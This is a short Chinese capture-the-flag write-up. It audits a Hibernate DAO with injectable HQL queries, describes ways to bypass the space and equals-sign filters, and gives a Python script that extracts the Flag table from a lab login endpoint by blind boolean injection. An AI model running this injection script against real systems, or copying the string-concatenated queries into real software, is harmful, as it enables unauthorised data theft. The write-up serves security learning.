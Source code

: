 源码审计:

```java

public class UserDaoImpl
  extends HibernateDaoSupport
  implements UserDao
{
  public List<User> findUserByName(String name)
  {
    return getHibernateTemplate().find("from User where name ='" + name + "'");
  }
  
  public List<User> loginCheck(String name, String password)
  {
    return getHibernateTemplate().find("from User where name ='" + name + "' and password = '" + password + "'");
  }
}
```

发现没有对用户输入进行过滤,存在sql注入

**在 HQL 语句中查询的是实体类 , 实体类与数据表存在映射关系** , 这个映射关系就写在 `*.hbm.xml` 文件中 , **因此HQL语句中 from 后跟着的是实体类名 ' User ' , 而不是实际的表名 'hlj_members'** 

程序会对空格和=进行过滤,绕过空格过滤 我们可以用换行符或`/**/`者来替换,不知道为什么`/**/`不能替换,是hsql语句不支持?

=可以用 like来替换,不知道为什么不能用注释#,不过影响不大

```python
import requests
url='http://111.198.29.45:41014/zhuanxvlogin'
sql='''123'
or
(judge)
or
name
like
'admin'''
judge='''((select
ascii(substr(group_concat(id),index,1))
from
Flag
where
id<2)<guess)'''

sql=sql.replace('judge',judge)
index=1
result=''
while 1:
    for i in range(32,128):
        text=requests.post(url,data={'user.name':sql.replace('guess',str(i)).replace('index',str(index)),'user.password':'1'}).text
        #print({'user.name':sql.replace('guess',str(i)).replace('index',str(index)),'user.password':'1'})
        #input()
        if 'Dream' in text:
            result+=chr(i-1)
            print(result)
            
            break
    index+=1

```
